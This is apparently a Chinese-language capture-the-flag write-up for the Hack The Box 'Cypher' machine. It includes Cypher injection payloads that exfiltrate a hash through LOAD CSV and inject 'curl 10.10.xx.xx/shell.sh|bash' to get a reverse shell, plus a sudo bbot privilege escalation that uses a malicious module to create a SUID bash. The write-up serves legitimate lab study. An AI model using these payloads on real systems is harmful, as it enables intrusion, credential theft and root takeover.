## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Cypher  
❯ nmap cypher.htb -sV -A -T4 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

## Dirsearch

```
[root@kali] /home/kali/Desktop  
❯ dirsearch -u cypher.htb -t 50 -x 404

Target: http://cypher.htb/

Starting:                                                                                                                                        
200 - 5KB - /about                                            
200 - 5KB - /about.html                                       
307 - 0B  - /api  ->  /api/docs                               
307 - 0B  - /api/  ->  http://cypher.htb/api/api              
307 - 0B  - /demo/  ->  http://cypher.htb/api/demo            
307 - 0B  - /demo  ->  /login                                 
200 - 4KB - /login.html                                       
200 - 4KB - /login                                            
301 - 178B  - /testing  ->  http://cypher.htb/testing/          
                                                                             
Task Completed      
```



## Cypher Injection

进入登录页面，尝试进行**SQL注入**，得到报错回显



```
 {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 60 (offset: 59))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash"
                                                            ^}
```

似乎存在着**Cypher**注入，下面是一些文章

- [Fun with Cypher Injections - HackMD](https://hackmd.io/@Chivato/rkAN7Q9NY)

- [Protecting against Cypher Injection - Knowledge Base](https://neo4j.com/developer/kb/protecting-against-cypher-injection/)

- [Cypher Injection Cheat Sheet - Pentester Land](https://pentester.land/blog/cypher-injection-cheatsheet/#what-is-cypher-injection)

这里尝试的是**SSRF**外带出**admin**用户的**hash**值

```
{"username":"admin' OR 1=1  LOAD CSV FROM 'http://10.10.xx.xx/ppp='+h.value AS y Return ''//","password":"123"}
```



```
9f54ca4c130be6d529a56dee59dc2b2090e43acf
```

不幸的是，这个并不能被破解。。。。。而且更换用户也是一样的**hash**

查看之前的反编译

```
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

/* loaded from: custom-apoc-extension-1.0-SNAPSHOT.jar:com/cypher/neo4j/apoc/CustomFunctions.class */
public class CustomFunctions {
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
        StringBuilder errorOutput = new StringBuilder();
        while (true) {
            String line = errorReader.readLine();
            if (line == null) {
                break;
            }
            errorOutput.append(line).append("\n");
        }
        String statusCode = inputReader.readLine();
        System.out.println("Status code: " + statusCode);
        boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
        if (!exited) {
            process.destroyForcibly();
            statusCode = "0";
            System.err.println("Process timed out after 10 seconds");
        } else {
            int exitCode = process.exitValue();
            if (exitCode != 0) {
                statusCode = "0";
                System.err.println("Process exited with code " + exitCode);
            }
        }
        if (errorOutput.length() > 0) {
            System.err.println("Error output:\n" + errorOutput.toString());
        }
        return Stream.of(new StringOutput(statusCode));
    }

    /* loaded from: custom-apoc-extension-1.0-SNAPSHOT.jar:com/cypher/neo4j/apoc/CustomFunctions$StringOutput.class */
    public static class StringOutput {
        public String statusCode;

        public StringOutput(String statusCode) {
            this.statusCode = statusCode;
        }
    }
}
```

可以看到是**apoc**包里面的，并且它的调用是**custom.getUrlStatusCode**

值得注意的是，这里是直接把**URL**拼接，然后传递给**/bin/sh**执行



这里需要先返回**h.value**否则在比对密码的时候会直接报错，影响后面的执行

并且联合注入要求的两个列名必须相同，也就是**AS**后面接同样的列名

使用联合注入，调用这个**custom.getUrlStatusCode**

```
{
  "username": "admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.xx.xx/shell.sh|bash;\") YIELD statusCode AS value  RETURN value ; //",                                                                                                                                                  
  "password": "123"
}
```

**custom.getUrlStatusCode**是必须要执行成功才会返回**statusCode**，从而加入列的第二行。因此前面我插入的是**127.0.0.1**，保证能够返回一个正常状态码。



成功反弹到**Shell**，可以直接进入**/home/graphasm**



读取**bbot\_preset.yml**得到密码



登录到**graphsam**，获取到**user.txt**



## Root

查看**sudo**

```
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

**bbot**的内容如下

```
graphasm@cypher:~$ cat /usr/local/bin/bbot
#!/opt/pipx/venvs/bbot/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from bbot.cli import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

本来想在当前目录写入同名**python**文件来进行提权，但是目录没有写的权限，查看一下是否可以写入配置来启动**bbot**

注意到**\--custom-yara-rules**可以引入规则



因此可以尝试把**root.txt**引入，并且开启**debug**模式

```
graphasm@cypher:/usr/local/bin$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
```



我尝试读取**ssh**密钥，只能读取到**id\_ed25519**，而且并没有**authorized\_keys**，因此无法**SSH**登录



查看**module**的目录权限，无法写入。



参考一下官网上的具体配置

- [Configuration - BBOT Docs](https://www.blacklanternsecurity.com/bbot/Stable/scanning/configuration/#global-config-options)

- [How to Write a BBOT Module - BBOT Docs](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/#create-the-python-file)

- [Overview - BBOT Docs](https://www.blacklanternsecurity.com/bbot/Stable/scanning/presets/#preset-load-order)

- [Presets - BBOT Docs](https://www.blacklanternsecurity.com/bbot/Stable/dev/presets/#bbot.scanner.Preset)

发现可以自己指定配置文件，并且创建新的模块。



因此先写入一个模块的目录文件 **myconf.yml**

```
module_dirs:
  - /tmp/modules
```

然后在**/tmp/modules**中写入根据模板修改后具有提权部分的代码，命名为**whois2.py**👇

```
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    base_url = "https://www.whoisxmlapi.com/whoisserver/WhoisService"

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/bash && chmod u+s /tmp/bash")
        self.api_key = self.config.get("api_key")
        if not self.api_key:
            # soft-fail if no API key is set
            return None, "Must set API key"

    async def handle_event(self, event):
        self.hugesuccess(f"Got {event} (event.data: {event.data})")
        _, domain = self.helpers.split_domain(event.data)
        url = f"{self.base_url}?apiKey={self.api_key}&domainName={domain}&outputFormat=JSON"
        self.hugeinfo(f"Visiting {url}")
        response = await self.helpers.request(url)
        if response is not None:
            await self.emit_event(response.json(), "WHOIS", parent=event)
```

最后命令行执行，提权成功

```
sudo /usr/local/bin/bbot -p ./myconf.yml -m whois2
```



## Summary

`User`：登陆页面的**username**处存在**Cypher注入**，通过泄露的扩展文件可以看到，传入参数是直接通过拼接的方式传递给**/bin/sh**，因此可以构造反弹**shell**。直接进入**/home/graphasm**拿到用户密码。

`Root`：查看命令的具体参数，可以将**root.txt**当作规则进行引用，同时开启**debug**模式，泄露出文件的具体内容。写入新的配置文件以及新的恶意模块，通过参数指定，最后成功提权到**root**。
